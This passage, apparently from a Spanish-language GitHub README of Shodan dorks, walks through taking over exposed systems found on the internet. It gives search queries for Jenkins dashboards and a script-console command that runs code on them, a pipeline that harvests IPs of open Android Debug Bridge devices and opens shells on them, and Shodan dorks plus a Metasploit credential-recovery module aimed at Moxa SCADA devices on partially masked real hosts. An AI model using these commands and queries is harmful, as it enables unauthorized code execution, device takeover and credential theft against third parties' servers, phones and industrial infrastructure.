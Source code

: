 ```sh
http.component:"jenkins"
title:"Dashboard [Jenkins]"
html:"Dashboard Jenkins"
```
```sh
add /script 
print "uname -a".execute().text
```
![8](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/5c1b5452-bf20-4857-b00f-d3255453825f)

## Access devices ADB
Es una aplicación de terminal que le permite conectarse al servicio ADB shell de otros dispositivos Android a través de la red.

```sh
shodan search :Android Debug Bridge port:5555 "Name:" --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt 
 ```
```sh
python3 adb.py   
```
![9](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/1a5484f7-55ff-4db6-ab0e-22cf6ff2c018)

```sh
adb devices
```
![10](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/7e32e586-a2c6-48e0-b173-bd6f4768148b)

```sh
adb -s 59.x.x.112:5555 shell
```
![11](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/808b7528-01f9-4bbe-8613-85c0b87496cb)


## Access devices SCADA Moxa 
Sistema SCADA que utiliza productos de la marca Moxa para establecer la conectividad y la comunicación con los dispositivos industriales que están siendo monitoreados y controlados en una infraestructura crítica o proceso industrial.

```sh
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```

```sh
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```
![12](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/994f2250-28e1-4cd9-a113-c7a90c11c92e)
